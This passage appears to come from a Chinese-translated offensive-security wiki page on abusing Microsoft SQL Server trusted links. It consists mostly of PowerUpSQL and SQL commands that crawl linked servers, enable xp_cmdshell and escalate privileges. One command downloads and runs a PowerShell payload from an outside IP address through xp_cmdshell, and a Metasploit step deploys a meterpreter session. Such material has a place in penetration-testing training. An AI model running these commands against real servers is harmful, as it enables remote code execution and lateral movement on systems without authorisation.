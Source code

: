 ```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql  -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1'')"'

#Check for possible vulnerabilities on an instance where you have access
Invoke-SQLAudit -Verbose -Instance "dcorp-mssql.dollarcorp.moneycorp.local"

#Try to escalate privileges on an instance
Invoke-SQLEscalatePriv –Verbose –Instance "SQLServer1\Instance1"

#Manual trusted link queery
Get-SQLQuery -Instance "sql.domain.io,1433" -Query "select * from openquery(""sql2.domain.io"", 'select * from information_schema.tables')"
## Enable xp_cmdshell and check it
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'SELECT * FROM OPENQUERY("sql2.domain.io", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell'''''');'
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [sql.rto.external]'
Get-SQLQuery -Instance "sql.domain.io,1433" -Query 'EXEC(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [sql.rto.external]'
## If you see the results of @@selectname, it worked
Get-SQLQuery -Instance "sql.rto.local,1433" -Query 'SELECT * FROM OPENQUERY("sql.rto.external", ''select @@servername; exec xp_cmdshell ''''powershell whoami'''''');'
```
### Metasploit

您可以使用 metasploit 轻松检查受信任的链接。
```bash
#Set username, password, windows auth (if using AD), IP...
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session
```
注意，metasploit 只会尝试在 MSSQL 中滥用 `openquery()` 函数（因此，如果您无法使用 `openquery()` 执行命令，您将需要尝试 **手动** 使用 `EXECUTE` 方法来执行命令，更多信息见下文。）

### 手动 - Openquery()

从 **Linux** 您可以使用 **sqsh** 和 **mssqlclient.py** 获取 MSSQL 控制台 shell。

从 **Windows** 您也可以找到链接并使用 **MSSQL 客户端如** [**HeidiSQL**](https://www.heidisql.com) 手动执行命令。

_使用 Windows 身份验证登录：_

![](<../../.gitbook/assets/image (808).png>)

#### 查找可信链接
```sql
select * from master..sysservers;
EXEC sp_linkedservers;
```
![](<../../.gitbook/assets/image (716).png>)

